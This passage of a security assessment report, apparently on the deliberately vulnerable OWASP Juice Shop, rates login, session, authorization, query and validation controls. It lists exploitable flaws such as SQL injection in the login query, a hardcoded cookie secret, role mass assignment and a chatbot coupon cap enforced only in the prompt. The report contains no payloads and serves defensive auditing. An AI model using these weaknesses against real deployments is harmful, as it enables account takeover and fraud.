- None linked to this control; see the other findings of this category.

<a id="password-based-login"></a>
#### 6.2.3 Password-Based Login

**Status:** 🔴 Unsafe - SQL injection in the credential query and unsalted `MD5` hashes defeat the check, and nothing throttles attempts.

<!-- Model implementation note (facts for the intro): Present at POST /rest/user/login -->
`POST /rest/user/login` in `routes/login.ts` hashes the submitted password, looks up the user row and issues a session token.

The diagram shows the positive password-login path:


**Security assessment**

Four independent weaknesses sit on the login path:

- The email is interpolated into raw SQL, so authentication can be bypassed (🔴 [F-011](#f-011)).
- Passwords are hashed with unsalted `MD5` in several code paths (🟠 [F-043](#f-043) — Password verification relies on unsalted MD5 (Password verification relies on unsalted `MD5`), 🟠 [F-045](#f-045) — Passwords hashed with unsalted MD5 in User model setter (Passwords hashed with unsalted `MD5` in User model setter), 🟠 [F-047](#f-047) — Unsalted MD5 password hashing and no strength policy (Unsalted `MD5` password hashing and no strength policy)).
- No brute-force protection applies to the login handler (🟡 [F-077](#f-077)).
- The OAuth adapter ends in this same login and inherits its flaws (🟠 [F-016](#f-016), 🟠 [F-017](#f-017)).


**Relevant findings**

- 🔴 [F-011](#f-011) — SQL injection in login credential query
- 🟠 [F-015](#f-015) — Password change allowed without current password
- 🟠 [F-016](#f-016) — OAuth implicit flow without state, nonce or audience
- 🟠 [F-017](#f-017) — Predictable password derived from OAuth email
- 🟠 [F-021](#f-021) — Password reset accepts a security-question answer
- 🟠 [F-022](#f-022) — Password reset relies on guessable security
- 🟠 [F-043](#f-043) — Password verification relies on unsalted MD5
- 🟠 [F-045](#f-045) — Passwords hashed with unsalted MD5 in User model setter
- 🟠 [F-046](#f-046) — Password reset response returns full user record
- 🟠 [F-047](#f-047) — Unsalted MD5 password hashing and no strength policy
- 🟡 [F-075](#f-075) — OAuth implicit flow without state parameter
- 🟡 [F-077](#f-077) — No brute-force protection on login handler
- 🟡 [F-094](#f-094) — DOM XSS

<a id="user-registration"></a>
#### 6.2.4 User Registration

**Status:** 🔴 Unsafe - the registration endpoint accepts a role from the request body, so anyone can create an administrator.

<!-- Model implementation note (facts for the intro): Present at POST /api/Users -->
`POST /api/Users` creates accounts through the generic REST model endpoint registered in `server.ts`.

The diagram shows the positive registration path:


**Security assessment**

Registration trusts the request body for privileged fields:

- A client-chosen `role` is accepted at creation (🟠 [F-066](#f-066), 🟠 [F-067](#f-067), 🟠 [F-068](#f-068)).
- The route registers without authentication middleware (🟠 [F-059](#f-059)).
- The stored password hash is unsalted `MD5` (🟠 [F-045](#f-045) — Passwords hashed with unsalted MD5 in User model setter (Passwords hashed with unsalted `MD5` in User model setter)).


**Relevant findings**

- 🟠 [F-059](#f-059) — Sensitive Routes Registered Without Authentication Middleware
- 🟠 [F-066](#f-066) — Registration accepts privileged role from request body
- 🟠 [F-067](#f-067) — Mass assignment of role on user registration
- 🟠 [F-068](#f-068) — User registration accepts a client-chosen role
- 🟡 [F-113](#f-113) — Challenge flags replayed to every connecting
- 🟡 [F-116](#f-116) — Unvalidated event payload types throw

<a id="password-reset"></a>
#### 6.2.5 Password Reset

**Status:** 🔴 Unsafe - recovery depends on a guessable security answer, and the response returns the full user record.

<!-- Model implementation note (facts for the intro): Present at POST /rest/user/reset-password -->
`POST /rest/user/reset-password` in `routes/resetPassword.ts` takes an email, a security-question answer and a new password.

The diagram shows the positive password-reset path:


**Security assessment**

Recovery has no possession factor, so each weakness is directly exploitable:

- A security-question answer is accepted as proof of identity (🟠 [F-021](#f-021), 🟠 [F-022](#f-022)).
- The success response returns the full user record (🟠 [F-046](#f-046)).
- The security question endpoint reveals account details (🟡 [F-101](#f-101)).
- The rate limiter keys on the client-supplied `X-Forwarded-For` header, so it can be bypassed.


**Relevant findings**

- 🟠 [F-021](#f-021) — Password reset accepts a security-question answer
- 🟠 [F-022](#f-022) — Password reset relies on guessable security
- 🟠 [F-046](#f-046) — Password reset response returns full user record
- 🟡 [F-101](#f-101) — Security question endpoint reveals

### 6.3 Session and Token Controls

<a id="ctrl-session-and-token-controls"></a>

**Verdict:** 🟠 Weak - the token lives in script-readable storage, verification is loose, and the signing secrets are in source.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.3.1 Cookie/token session lookup and cookie signing](#631-cookietoken-session-lookup-and-cookie-signing)
- [6.3.2 Client-side JWT storage](#632-client-side-jwt-storage)
- [6.3.3 Bearer token attachment to API requests](#633-bearer-token-attachment-to-api-requests)
- [6.3.4 Token issuance and server-side authenticated-user tracking](#634-token-issuance-and-server-side-authenticated-user-tracking)

**Implemented controls:** Cookie/token session lookup and cookie signing, Client-side JWT storage, Bearer token attachment to API requests, Token issuance and server-side authenticated-user tracking.

**Assessment:** This application uses a single locally-signed token format (commonly called JWT) for every authenticated session, regardless of the login flow in [§6.2](#62-identity-and-authentication-controls) that established it. The sub-sections below trace the token through cookie lookup, browser storage, request attachment and issuance. Storage is script-readable (🟠 [F-003](#f-003)), verification does not pin an algorithm (🟡 [F-078](#f-078)), and key material is hardcoded (🟠 [F-048](#f-048)).

**Findings in this category without a control:**

- 🟠 [F-003](#f-003) — JWT Stored in Script-Readable Storage

<a id="cookietoken-session-lookup-and-cookie-signing"></a>
#### 6.3.1 Cookie/token session lookup and cookie signing

**Status:** 🟠 Weak - sessions resolve through an in-memory map, and the cookie-signing secret is a hardcoded literal.

<!-- Model implementation note (facts for the intro): server.ts:289; routes/profileImageUrlUpload.ts:21 -->
`server.ts` resolves the session from an in-memory map keyed by the token cookie, and `routes/profileImageUrlUpload.ts` reads the same cookie.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Sessions are looked up in an in-memory map keyed by the token cookie. The cookie-parser secret is the hardcoded literal 'kekse'. -->
Cookie handling depends on a secret anyone can read:

- The `cookie-parser` secret is the literal `kekse`, committed in source, in line with the hardcoded-secret pattern of 🟠 [F-048](#f-048) — Hardcoded JWT signing key and HMAC secrets.
- The in-memory map is lost on restart and is not shared across instances.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="client-side-jwt-storage"></a>
#### 6.3.2 Client-side JWT storage

**Status:** 🟠 Weak - any script on the page can read the token from `localStorage` or the cookie.

<!-- Model implementation note (facts for the intro): login.component.ts login() -->
`login.component.ts` `login()` writes the JWT to `localStorage` and to a script-set cookie with an 8h expiry.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The JWT is stored in localStorage and in a script-set cookie (8h expiry). Both are readable by any script, so XSS can steal the token. The cookie options set no HttpOnly or Secure flag. -->
Token storage turns any script execution into account takeover:

- `localStorage` and the script-set cookie are readable by page scripts (🟠 [F-003](#f-003)).
- The cookie carries no `HttpOnly` or `Secure` flag.
- The XSS sinks in [§6.7](#67-output-encoding-and-rendering-controls) supply the script execution needed to steal it (🟠 [F-001](#f-001)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="bearer-token-attachment-to-api-requests"></a>
#### 6.3.3 Bearer token attachment to API requests

**Status:** 🟡 Partial - the client attaches the token, but server-side checks remain the authority.

<!-- Model implementation note (facts for the intro): frontend/src/app/Services/*.service.ts -->
Angular services call `HttpClient` with no token handling of their own, and an interceptor adds the `Authorization` header from `localStorage`.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Services issue plain HttpClient calls with no token handling of their own. The request.interceptor.ts that presumably adds the bearer token was not read. Authorization is enforced server-side, so the client controls are not authoritative. -->
Attachment is simple and depends on the storage choice:

- The header is built from `localStorage`, which inherits the exposure in 🟠 [F-003](#f-003) — JWT Stored in Script-Readable Storage.
- `request.interceptor.ts` itself was not read, so its handling of errors and expiry is unverified.
- Client controls are not authoritative because authorization is enforced server-side.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="token-issuance-and-server-side-authenticated-user-tracking"></a>
#### 6.3.4 Token issuance and server-side authenticated-user tracking

**Status:** 🟡 Partial - tokens map to server-side records, but the verification findings show the check is weak.

After a successful login, `security.authorize` creates the token and `security.authenticatedUsers` stores it against a server-side record.

The diagram shows token issuance after a successful login:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): After a successful login a token is created with security.authorize and stored in security.authenticatedUsers, so tokens map to server-side records. The signing algorithm, expiry and key handling live in lib/insecurity.ts, which was not read here, so their strength is not rated. -->
Issuance is tracked server-side, but verification and keys are weak:

- Verification does not pin a signing algorithm (🟡 [F-078](#f-078)).
- A decode path skips signature verification (🟠 [F-019](#f-019)) and verification is insecure elsewhere (🟠 [F-020](#f-020)).
- The signing key and HMAC secrets are hardcoded (🟠 [F-048](#f-048)).
- Expiry and algorithm details in `lib/insecurity.ts` were not read in this slice, so they are not rated here.


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.4 Authorization Controls

<a id="ctrl-authorization-controls"></a>


**Systemic weaknesses:** [W-007](#w-007), [W-008](#w-008), [W-022](#w-022), [W-023](#w-023), [W-024](#w-024), [W-025](#w-025), [W-026](#w-026)
**Verdict:** 🟠 Weak - middleware guards some routes, but object-level checks are missing across the API.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.4.1 Route-level authorization middleware](#641-route-level-authorization-middleware)
- [6.4.2 Wallet ownership verification for NFT mint and wallet listener](#642-wallet-ownership-verification-for-nft-mint-and-wallet-listener)

**Implemented controls:** Route-level authorization middleware, Wallet ownership verification for NFT mint and wallet listener.

**Assessment:** Authorization is applied route by route in `server.ts`, with no shared server-side pattern. Unauthenticated routes (🟠 [F-059](#f-059), 🟠 [F-026](#f-026), 🟠 [F-063](#f-063)) and missing ownership checks (🟠 [F-002](#f-002), 🟠 [F-030](#f-030), 🟠 [F-042](#f-042)) show the missing piece: object-level authorization enforced on the server.

**Findings in this category without a control:**

- 🟠 [F-002](#f-002) — Systemic missing object ownership checks across address, basket, coupon
- 🔴 [F-010](#f-010) — Insecure Direct Object Reference
- 🟠 [F-028](#f-028) — Expired coupon campaigns accepted from client-supplied
- 🟠 [F-030](#f-030) — Basket item update lacks ownership check and field
- 🟠 [F-042](#f-042) — Any authenticated user can read other users' records and all complaints
- 🟠 [F-050](#f-050) — Basket item add checks different BasketId than it
- 🟠 [F-051](#f-051) — Review author taken from request body
- 🟠 [F-052](#f-052) — Review update lacks ownership check
- 🟠 [F-053](#f-053) — Recycle records readable by any caller by ID
- 🟠 [F-057](#f-057) — Deluxe upgrade skips payment verification
- 🟠 [F-058](#f-058) — Encryption keys and logs served without authorization
- 🟠 [F-059](#f-059) — Sensitive Routes Registered Without Authentication Middleware
- 🟠 [F-060](#f-060) — Any authenticated user can list all user accounts
- 🟠 [F-061](#f-061) — Any authenticated user can create products with chosen prices
- 🟠 [F-063](#f-063) — Unauthenticated product update
- 🟠 [F-064](#f-064) — Duplicate JSON key bypasses basket ownership check
- 🟠 [F-065](#f-065) — Chatbot coupon tool lacks server-side authorization
- 🟠 [F-066](#f-066) — Registration accepts privileged role from request body
- 🟠 [F-067](#f-067) — Mass assignment of role on user registration
- 🟠 [F-068](#f-068) — User registration accepts a client-chosen role
- 🟠 [F-069](#f-069) — User list readable by any authenticated user
- 🟡 [F-072](#f-072) — Client-supplied UserId accepted when posting feedback
- 🟡 [F-084](#f-084) — Owner UserId taken from request body on create routes
- 🟡 [F-085](#f-085) — Security answer creation accepts owner from request body
- 🟡 [F-107](#f-107) — Data export finds orders by non-unique masked e-mail
- 🟡 [F-108](#f-108) — Order history matches orders by masked email
- 🟡 [F-109](#f-109) — Order tracking returns any order by identifier
- 🟡 [F-118](#f-118) — Any logged-in user can delete any feedback
- 🟡 [F-119](#f-119) — Basket items readable and deletable across users

<a id="route-level-authorization-middleware"></a>
#### 6.4.1 Route-level authorization middleware

**Status:** 🟡 Partial - guards cover some routes, but coverage is inconsistent and some are disabled.

<!-- Model implementation note (facts for the intro): server.ts lines 356-453, 603-635 -->
`server.ts` wires `isAuthorized`, `denyAll` and `isAccounting` onto baskets, complaints, B2B and accounting routes.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): isAuthorized/denyAll/isAccounting guard baskets, complaints, B2B and accounting routes, but coverage is inconsistent. Several routes (e.g. /rest/order-history, /rest/wallet, /rest/chat, /profile, /rest/memories, PUT reviews) have no visible middleware at this layer. PUT /api/Products is commented out. The IP filter on /api/Quantitys uses a placeholder address. -->
Coverage gaps leave sensitive routes open:

- Routes such as order history, wallet, chat, profile, memories and review updates show no middleware at this layer (🟠 [F-059](#f-059)).
- The product update guard is commented out (🟠 [F-026](#f-026), 🟠 [F-063](#f-063)).
- Any authenticated user can list accounts or create products (🟠 [F-060](#f-060), 🟠 [F-061](#f-061)).
- The IP filter on `/api/Quantitys` uses a placeholder address.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="wallet-ownership-verification-for-nft-mint-and-wallet-listener"></a>
#### 6.4.2 Wallet ownership verification for NFT mint and wallet listener

**Status:** 🟠 Weak - the wallet address comes from the request body with no proof of key ownership.

`routes/nftMint.ts` compares the posted wallet address with a set of on-chain minter addresses.

The diagram shows the intended wallet claim path:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Wallet address is taken from the request body and compared with a set of on-chain event minters, with no signature or proof of key ownership. Any caller who knows a minter address can claim it. Within the inspected files no authentication middleware is visible; route-level middleware in server.ts was not inspected. The address is also not validated or normalized before being added to the in-memory set. -->
Ownership is asserted, not proven:

- No signature is required, so any caller who knows a minter address can claim it (🟡 [F-074](#f-074)).
- The address is not validated or normalized before it enters the in-memory set.
- Route middleware in `server.ts` was not inspected for this route.


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.5 Query Construction and Data Access Controls

<a id="ctrl-query-construction-and-data-access-controls"></a>


**Systemic weaknesses:** [W-002](#w-002), [W-006](#w-006)
**Verdict:** 🔴 Unsafe - raw SQL and NoSQL query construction is present on login and search routes.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.5.1 Chatbot tool query construction and ownership checks](#651-chatbot-tool-query-construction-and-ownership-checks)
- [6.5.2 Embedded MarsDB data access control](#652-embedded-marsdb-data-access-control)
- [6.5.3 Login credential lookup query construction](#653-login-credential-lookup-query-construction)

**Implemented controls:** Chatbot tool query construction and ownership checks, Login credential lookup query construction.

**Assessment:** Sequelize backs most relational access, but login and search build raw SQL (🔴 [F-011](#f-011), 🔴 [F-004](#f-004)), and review and order routes pass request values into MarsDB selectors (🟠 [F-033](#f-033) (NoSQL injection in product reviews \$where), 🟠 [F-034](#f-034) (NoSQL injection in order tracking \$where predicate), 🟠 [F-035](#f-035) — NoSQL operator injection and missing). MarsDB itself adds no access control.

**Findings in this category without a control:**

- 🔴 [F-004](#f-004) — SQL injection in product search
- 🔴 [F-011](#f-011) — SQL injection in login credential query
- 🟠 [F-033](#f-033) — NoSQL injection in product reviews \$where
- 🟠 [F-034](#f-034) — NoSQL injection in order tracking \$where predicate
- 🟠 [F-035](#f-035) — NoSQL operator injection and missing

<a id="chatbot-tool-query-construction-and-ownership-checks"></a>
#### 6.5.1 Chatbot tool query construction and ownership checks

**Status:** 🟠 Weak - ownership is checked for orders, but the discount cap lives only in the prompt.

`routes/chat.ts` exposes tools such as `getOrderById` and `generateCoupon` that read and write data for the authenticated user.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): getOrderById enforces ownership against the authenticated user, though it compares a masked email. The tool coerces the review id with Number() before building the \$where string. The generateCoupon tool accepts any numeric discount. The 10% cap exists only in the prompt, and server code does not enforce it. The system prompt embeds a confidential discount, and the user name is interpolated into it. The POST /rest/chat route has no auth middleware at this layer. -->
The chatbot tools mix partial checks with unenforced limits:

- `getOrderById` checks ownership, but compares a masked email.
- `generateCoupon` accepts any numeric discount, and the 10% cap exists only in the prompt (🟠 [F-065](#f-065), 🟡 [F-117](#f-117)).
- The client controls message roles and history (🟠 [F-038](#f-038)).
- `POST /rest/chat` has no auth middleware at this layer.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="embedded-marsdb-data-access-control"></a>
#### 6.5.2 Embedded MarsDB data access control

**Status:** 🔴 Missing - the reviews and orders collections carry no authentication, access control or schema validation of their own.

This control is not evidenced in the repository.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The reviews and orders collections are created as in-process MarsDB collections with no authentication, access control, or schema validation in the inspected module. Access control depends entirely on the calling application code, which was not inspected here. -->
MarsDB collections run in-process, so all protection rests on calling code:

- Operator and predicate injection reaches the store through `$where` and update selectors (🟠 [F-033](#f-033) — NoSQL injection in product reviews \$where (NoSQL injection in product reviews \$where), 🟠 [F-034](#f-034) — NoSQL injection in order tracking \$where predicate (NoSQL injection in order tracking \$where predicate), 🟠 [F-035](#f-035) — NoSQL operator injection and missing).
- The calling application code was not inspected here.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="login-credential-lookup-query-construction"></a>
#### 6.5.3 Login credential lookup query construction

**Status:** 🔴 Unsafe - the email is interpolated into a raw SQL string, so the credential check can be altered by the caller.

<!-- Model implementation note (facts for the intro): routes/login.ts:34 models.sequelize.query with template-string interpolation -->
`routes/login.ts` builds the authentication query with `models.sequelize.query()` and a template string.

The diagram shows the intended credential lookup:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The login handler builds the SQL authentication query by interpolating req.body.email directly into a raw query string. The password is hashed first, but the email is not escaped or parameterized, so the credential check can be altered by the caller. The authentication decision relies on this query. -->
The authentication decision rests on one injectable query:

- The password is hashed first, but the email is not escaped or parameterized (🔴 [F-011](#f-011)).
- Product search repeats the pattern with raw SQL (🔴 [F-004](#f-004)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.6 Input Boundary Validation Controls

<a id="ctrl-input-boundary-validation-controls"></a>

**Verdict:** 🟠 Weak - checks are ad hoc per route, and several business-rule limits are absent.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.6.1 Validation Approach](#661-validation-approach)
- [6.6.2 Upload size, type and filename controls](#662-upload-size-type-and-filename-controls)
- [6.6.3 Guest basket input sanitization](#663-guest-basket-input-sanitization)
- [6.6.4 WebSocket message handler input validation](#664-websocket-message-handler-input-validation)

**Implemented controls:** Upload size, type and filename controls, Guest basket input sanitization, WebSocket message handler input validation.

**Assessment:** Validation exists for uploads, guest baskets and chat tool arguments, but no shared schema layer. Gaps include unvalidated wallet balances (🟠 [F-036](#f-036)), unlimited chat consumption (🟠 [F-049](#f-049)) and untyped WebSocket payloads (🟡 [F-116](#f-116)).

**Findings in this category without a control:**

- 🟠 [F-036](#f-036) — Wallet top-up accepts unvalidated attacker-chosen balance
- 🟠 [F-049](#f-049) — Chat endpoint has no request or consumption limits
- 🟡 [F-115](#f-115) — Event loop blocked by busy-wait sleep
- 🟡 [F-116](#f-116) — Unvalidated event payload types throw
- 🟡 [F-117](#f-117) — Chatbot coupon tool accepts unbounded discount

<a id="validation-approach"></a>
#### 6.6.1 Validation Approach

**Status:** 🟠 Weak - validation is per-route, with no shared request schema.

Request checks are written route by route: multer filters on uploads, `Number()` coercion in chat tools and a client check on guest baskets.

**Security assessment**

Several routes accept values that business rules should reject:

- Wallet top-up takes an attacker-chosen balance (🟠 [F-036](#f-036)).
- The chat endpoint has no request or consumption limits (🟠 [F-049](#f-049)).
- A busy-wait sleep blocks the event loop (🟡 [F-115](#f-115)).
- The coupon tool takes an unbounded discount (🟡 [F-117](#f-117)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="upload-size-type-and-filename-controls"></a>
#### 6.6.2 Upload size, type and filename controls

**Status:** 🟡 Partial - size, type and filename limits exist, but the MIME type is client-declared.

Memory uploads are limited to 200KB, a png/jpeg MIME allowlist and filename sanitization.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Memory uploads are limited to 200KB, a MIME allowlist (png/jpeg) and filename sanitization. The MIME type is client-declared, and the profile image URL path derives the extension from the URL. -->
The upload filter trusts what the client sends:

- The MIME type is client-declared, so content is not checked.
- The profile image URL path derives the extension from the URL, and the fetched image is stored without a size limit (🟡 [F-081](#f-081)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="guest-basket-input-sanitization"></a>
#### 6.6.3 Guest basket input sanitization

**Status:** 🟢 Adequate - items are validated and invalid ones dropped, though only on the client.

<!-- Model implementation note (facts for the intro): basket.service.ts getGuestBasketItems() -->
`basket.service.ts` `getGuestBasketItems()` parses guest basket data from `sessionStorage` and keeps only valid items.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Guest basket data parsed from sessionStorage is validated: product ID must be a positive integer and quantity a finite number of at least 1. Invalid items are dropped and JSON parse errors are caught. This is a client-side convenience check only. -->
The check is sound for what it covers:

- Product ID must be a positive integer and quantity a finite number of at least 1.
- JSON parse errors are caught.
- It is a client-side convenience check, so server routes still validate on their own.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="websocket-message-handler-input-validation"></a>
#### 6.6.4 WebSocket message handler input validation

**Status:** 🟠 Weak - handlers take untyped client data, and any client can remove a notification.

Socket\.IO event handlers in `registerWebsocketEvents.ts` receive client payloads typed as `any`.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Handlers take untyped client data (any). The 'notification received' handler lets any client remove a notification by matching its flag value, with no authorization or schema validation. The challenge verification handlers use substring or regex matching on the data; they only drive challenge-solved state. Data is not passed to a sink in this file. -->
Handlers accept data without type or authorization checks:

- Unvalidated payload types throw errors (🟡 [F-116](#f-116)).
- The notification handler lets any client remove a notification by flag value, and flags are replayed to every connecting client (🟡 [F-113](#f-113)).
- Verification handlers use substring or regex matching and only drive challenge state; no sink was seen in this file.

**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.7 Output Encoding and Rendering Controls


**Systemic weaknesses:** [W-010](#w-010)
**Verdict:** 🟠 Weak - Angular escaping is the default, but trusted-HTML bypasses are used across the frontend.

<!-- The line below is mechanically derived from the section's default mechanism — LLM must not re-author it. -->
**Controls covered:**

- [6.7.1 Output Encoding and Client-Side Rendering](#671-output-encoding-and-client-side-rendering)

**Implemented controls:** Angular default template escaping and HTML sanitization in some Sequelize model setters.

